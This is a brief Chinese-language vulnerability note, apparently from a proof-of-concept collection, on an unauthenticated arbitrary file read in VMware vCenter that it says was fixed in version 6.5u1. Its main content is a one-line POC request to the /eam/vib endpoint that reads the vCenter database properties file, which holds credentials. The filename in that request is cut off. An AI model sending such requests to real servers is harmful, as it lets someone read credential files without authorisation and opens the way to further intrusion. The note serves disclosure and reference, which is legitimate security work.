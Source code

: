 # VMware vCenter未授权任意文件读取

### 原文链接

> https://twitter.com/ptswarm/status/1316016337550938122

在VMware vCenter中发现了一个未经身份验证的任意文件读取漏洞。VMware透露此漏洞已在6.5u1中修复，但未分配CVE

![img](resource/VMware%20vCenter%E6%9C%AA%E6%8E%88%E6%9D%83%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/640-20201014105633643.jpeg)



***\*POC\**:**

```
http://x.x.x.x/eam/vib?id=c:\programData\Vmware\vCenterServer\cfg\vmware-vpx\vcdb.properti
```